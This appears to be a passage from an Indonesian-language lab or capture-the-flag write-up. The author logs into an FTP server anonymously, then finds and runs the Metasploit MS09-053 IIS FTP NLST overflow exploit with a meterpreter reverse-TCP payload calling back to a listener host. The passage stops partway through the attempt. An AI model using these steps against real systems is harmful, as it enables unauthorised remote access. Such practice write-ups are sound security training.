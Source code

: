 disini saya berhasil untuk login pada ftp dengan akun anonymous. selanjutnya saya mencoba untuk mencari exploit dari microsoft ftpd pada metasploit

```bash
msf6 > search Microsoft ftpd

Matching Modules
================

   #  Name                                          Disclosure Date  Rank    Check  Description
   -  ----                                          ---------------  ----    -----  -----------
   0  exploit/windows/ftp/ms09_053_ftpd_nlst        2009-08-31       great   No     MS09-053 Microsoft IIS FTP Server NLST Response Overflow
   1  auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof  2010-12-21       normal  No     Microsoft IIS FTP Server Encoded Response Overflow Trigger


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof
```

terdapat 1 module exploit yaitu **exploit/windows/ftp/ms09_053_ftpd_nlst**  module ini menyerang stack buffer overflow pada microsoft iis ftp service 

```bash
msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > options

Module options (exploit/windows/ftp/ms09_053_ftpd_nlst):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS   10.129.136.185       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    21                   yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2000 SP4 English/Italian (IIS 5.0)


msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.129.136.185:21 - 257 "LSRSWHVOZI" directory created.
[*] 10.129.136.185:21 - 250 CWD command successful.
[*] 10.129.136.185:21 - Creating long directory...
[*] 10.129.136.185:21 - 451 No mapping for the Unicode character exists in the target multi-byte code page.
[*] 10.129.136.185:21 - 200 PORT command successful.
[*] 10.129.136.185:21 - Trying target Windows 2000 SP4 English/Italian (IIS 5.0)...
```